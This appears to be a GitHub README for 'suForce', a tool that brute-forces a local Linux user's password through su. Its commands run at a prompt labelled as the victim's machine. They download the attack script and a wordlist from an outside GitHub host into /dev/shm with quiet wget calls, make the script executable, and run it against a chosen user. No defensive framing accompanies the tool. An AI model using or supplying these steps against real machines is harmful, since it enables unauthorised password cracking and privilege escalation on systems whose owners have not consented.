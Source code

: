 <p align="left"><a href="https://www.itsecurity.id/"><img height="150" title="Xcod3bughunt3r" src="face.png"/></a></p>

# suForce

**su Brute Force - User Password**

- <kbd>Download</kbd>

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/Xcod3bughunt3r/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/Xcod3bughunt3r/suForce/main/techyou.txt"
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ chmod +x suForce.sh
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---

#### ``PLEASE CHECK`` *[LICENSE](LICENSE)*
#### ``DEVELOPERS:``*[Xcod3bughunt3r](https://github.com/Xcod3bughunt3r/Xcod3bughunt3r)*
